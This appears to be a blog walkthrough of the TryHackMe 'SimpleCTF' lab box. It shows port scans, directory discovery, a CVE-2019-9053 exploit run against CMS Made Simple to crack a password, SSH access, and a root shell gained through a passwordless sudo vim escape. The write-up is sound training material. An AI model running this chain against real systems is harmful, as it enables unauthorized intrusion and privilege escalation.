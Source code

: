 ### THM SimpleCTF

Got another one here.  Let's get to it.

```
(kali@kali)-$ sudo nmap -T4 -p- -Pn 10.10.60.101                        
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-11 10:17 EST
Nmap scan report for 10.10.60.101
Host is up (0.11s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 165.98 seconds
```

Looks like 21, 80, and 2222.

```
(kali@kali)-$ sudo nmap -A -Pn -p 21,80,2222 10.10.60.101               
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-11 10:21 EST
Nmap scan report for 10.10.60.101
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.15.116
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|storage-misc
Running (JUST GUESSING): Linux 3.X (90%), Crestron 2-Series (86%), HP embedded (85%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3
Aggressive OS guesses: Linux 3.10 - 3.13 (90%), Crestron XPanel control system (86%), HP P2000 G3 NAS device (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   47.48 ms  10.6.0.1
2   ... 3
4   115.43 ms 10.10.60.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.84 seconds
```

Tried FTP anonymous login, no luck.  Checked for vulns on different things, no luck there either really.  I did note that 2222 is actually ssh, instead of the normal port.

Let's check the website itself.

![Apache default](/Images/THM2SimpleCTF/pic1.png)

Defautl apache page.  Ok, let's bust out dirbuster.  Hehe, see what I did there.

![dirbuster](/Images/THM2SimpleCTF/pic2.png)

Looks like we have a directory to check out.  Let's give it a look.

![dirbuster](/Images/THM2SimpleCTF/pic3.png)

CMS Made simple.  Looks like a website management tool.

![dirbuster](/Images/THM2SimpleCTF/pic4.png)

Looks like we have a version number too.  2.2.8.

So a google check gives me a vulnverability for this tool.  CVE-2019-9053.  Looking at that it gives me a python program.  Took me a few tried to figure out how to get it to run correctly but was finally able to get it going.

`python2 cms.py -u http://10.10.60.101/simple/ --crack -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-1000000.txt`

So ended up having to put the base directory for the site.  I tried the /admin/ site and that didn't work.  Once I got it figured out though, it took a sec to run through but I got this...

![cracked password](/Images/THM2SimpleCTF/pic5.png)

Now that we have that username and password, let's put it to use.

We saw earlier that ssh was on a different port, so we try that by adding the `-p 2222` and use the password we got before.

```
(kali@kali)-$ ssh mitch@10.10.60.101 -p 2222
mitch@10.10.60.101's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Nov 11 16:48:38 2024 from 10.6.15.116
$
```

Look at that.  We're in.  Now that we have low level user, lets get to our enumeration for a Linux box.  One of the things to check is the `sudo -l` command, so lets do that.

```
$ sudo -l 
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
$
```

Looks like I can run vim as sudo without a password.  Go out to our GTFObins and find a command for vim to get a root shell.

`sudo vim -c ':!/bin/sh'`

Do that, but with /bin/bash cause bash is so much better.

And that gives us our root.

```
$ sudo vim -c ':!/bin/bash'  

root@Machine:~# 
root@Machine:~# whoami
root
```

And that's ownage!  This was a quick one.  Lots of fun once I got the command to run correctly from the exploit.  Wonder if there is a script or something to make python2 things work with python3.

Anyway, thanks for joining me for another THM box.

